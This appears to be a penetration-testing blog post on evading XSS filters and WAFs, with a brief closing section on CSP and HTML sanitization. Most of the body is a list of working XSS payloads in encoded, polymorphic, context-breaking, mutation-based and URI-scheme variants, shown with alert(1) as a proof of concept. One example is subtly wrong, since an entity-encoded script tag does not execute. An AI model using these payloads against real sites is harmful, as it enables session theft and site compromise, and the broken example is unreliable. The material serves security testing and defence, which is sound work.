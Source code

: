 ```yaml
---
title: "Advanced XSS Filter Bypass Techniques: Mastering Cross-Site Scripting Evasion"
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


Cross-site scripting (XSS) remains one of the most prevalent web application vulnerabilities, despite modern security measures. While basic XSS filters have become commonplace, understanding advanced bypass techniques is crucial for both security professionals and developers. In this comprehensive guide, we'll explore sophisticated methods to bypass XSS filters and understand how to implement proper defenses.

## Understanding Modern XSS Filters

Modern web applications implement various types of XSS filters, from simple pattern matching to complex context-aware sanitization. Before diving into bypass techniques, it's essential to understand how these filters typically work:

### Common Filter Mechanisms

- **Pattern-based filters** typically look for specific patterns like `<script>`, `javascript:`, or `on*` event handlers.
- **Context-aware filters** analyze the placement of user input within HTML structure.
- **WAF (Web Application Firewall) rules** often implement regex-based filtering.

## Basic Encoding Bypass Techniques

### HTML Entity Encoding

One of the fundamental bypass methods involves using HTML entities. Consider this basic example:

```javascript
// Blocked payload
<script>alert(1)</script>

// Encoded bypass
&lt;script&gt;alert(1)&lt;/script&gt;
```

### Unicode Encoding

Unicode provides multiple ways to represent characters:

```javascript
// Original payload
<img src=x onerror=alert(1)>

// Unicode bypass
<img src=x onerror=\u0061lert(1)>
```

## Advanced Filter Bypass Methods

### Polymorphic XSS Payloads

Polymorphic payloads change their appearance while maintaining functionality:

```javascript
// Base payload
<svg onload=alert(1)>

// Polymorphic variation
<svg/onload=setTimeout`alert\x281\x29`>
```

### Context-Aware Bypasses

Different contexts require different bypass techniques:

#### HTML Context

```html
<div data-text="USER_INPUT">
// Bypass using quote breaking
"><img src=x onerror=alert(1)>
```

#### JavaScript Context

```javascript
var userInput = "USER_INPUT";
// Bypass using string termination
";alert(1);//
```

## Advanced DOM-based XSS Techniques

### DOM Clobbering

DOM clobbering exploits the way browsers handle HTML elements with specific IDs:

```html
<form id=test>
  <input id=test name=test>
</form>

<script>
// test.test will reference the input element
if(test.test.value){
  // Potential XSS vector
}
</script>
```

### Mutation-based XSS

Some filters only check content once, allowing for DOM mutations:

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Filter Evasion Through Encoding Combinations

### Mixed Encoding

Combining different encoding methods can bypass more sophisticated filters:

```javascript
// Original
<img src=x onerror=alert(1)>

// Mixed encoding
&#x3c;img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
```

### Non-Standard Attributes

Exploiting browser parsing peculiarities:

```javascript
<a/href="javascript:alert(1)">click</a>
<a href=javascript&colon;alert(1)>click</a>
```

## Advanced WAF Bypass Techniques

### Regular Expression Evasion

Many WAFs use regex patterns that can be bypassed:

```javascript
// Blocked
<script>alert(1)</script>

// Bypass using line breaks
<script>
alert
(1)
</script>
```

### Protocol-based Bypasses

Exploiting different URI schemes:

```javascript
// Standard blocked version
<img src="javascript:alert(1)">

// Protocol bypass
<img src="data:text/html,<script>alert(1)</script>">
```

## Implementing Proper XSS Protection

### Content Security Policy (CSP)

Implement strong CSP headers:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
```

### Input Validation and Sanitization

Always implement proper input validation:

```javascript
// Server-side validation example (Node.js)
const sanitizeHtml = require('sanitize-html');
const cleanHtml = sanitizeHtml(dirtyHtml, {
  allowedTags: [ 'b', 'i', 'em', 'strong', 'a' ],
  allowedAttributes: {
    'a': [ 'href' ]
  }
});
```

## Conclusion

Understanding advanced XSS filter bypass techniques is crucial for both offensive security testing and defensive implementation. While filters and WAFs provide important security layers, they shouldn't be the only line of defense. Implementing multiple security controls, including proper input validation, output encoding, and content security policies, creates a more robust security posture.

Remember that security is an ongoing process, and new bypass techniques emerge regularly. Stay updated with the latest security research and continuously test and improve your defenses.

## Additional Resources

- [OWASP XSS Prevention Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML5 Security Cheatsheet](https://html5sec.org/)
- [Modern Web Security Standards Documentation](https://developer.mozilla.org/en-US/docs/Web/Security)